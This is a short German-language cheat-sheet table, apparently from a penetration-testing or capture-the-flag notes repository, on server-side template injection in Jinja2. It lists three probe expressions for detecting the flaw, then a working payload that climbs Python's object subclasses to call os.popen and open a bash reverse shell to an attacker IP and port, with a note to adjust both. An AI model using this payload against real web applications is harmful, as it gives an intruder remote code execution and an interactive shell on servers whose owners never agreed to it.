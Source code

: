 ## JinJa2

| **Command** | **Description** |
| --- | --- |
| `${7*7}` -\> False | Erster Testschritt |
| `{{7*7}}` -\> True 49 | Zweiter Testschritt |
| `{{7*'7'}}` -\> True 7777777 | Dritter Testschritt |
| `{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.14.2/1234 0>&1'").read()}}{%endif%}{%endfor%}` | Reverse Shell, IP und Port anpassen |

